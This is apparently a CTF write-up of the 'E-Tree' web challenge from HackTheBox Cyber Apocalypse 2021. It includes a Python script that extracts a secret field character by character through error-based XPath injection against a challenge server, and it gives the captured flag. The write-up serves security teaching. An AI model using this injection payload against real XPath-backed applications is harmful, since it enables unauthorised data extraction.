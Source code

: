 ```yaml
---
name: E-Tree (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Web
description: Writeup for E-Tree (Web) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# E-Tree

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/vqR4i730soY/0.jpg)](https://youtu.be/vqR4i730soY?t=2162s "HTB Cyber Apocalypse CTF 2021: E-Tree")

## Challenge Description

> E.Tree was a Python Flask application that used XPATH to parse XML files. We were presented with an example XML file from where we could see that some users have an additional selfDestructCode element set. Knowing this, we were able to do an error-based XPATH injection to determine the flag.

## Solution

```py
import requests
import string
from time import sleep

flag_pt1 = "CHTB{Th3_3xTr4_l3v3l_"
flag = "4Cc3s$_c0nTr0l}"
url = "http://139.59.168.47:30661/api/search"

# Each time a successful login is seen, restart loop
restart = True
count = len(flag) + 1

while restart:
    restart = False
    for char in "_" + string.ascii_letters + string.digits + "!#$%^()@{}£&*-=+.,~:;[]":
		# Update position index for the 2 seperate flag parts
        post_data = {"search": "' or substring((/military/district[position()=3]/staff[position()=2]/selfDestructCode)," + str(count) + ",1)=\"" + char + "\" or ''=' "}
        print(post_data)
        try:
            r = requests.post(url, json=post_data, headers={'Content-Type': 'application/json'})
        except BaseException:
            pass
        # Correct char results in "successful password"
        if 'exists' in r.text:
            restart = True
            count += 1
            flag += char
            print(flag)
            # Exit if "}" gives a valid redirect
            if char == "}":
                print("\nFlag: " + flag)
                exit(0)
            break

        sleep(1)
```

Flag: `CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}`
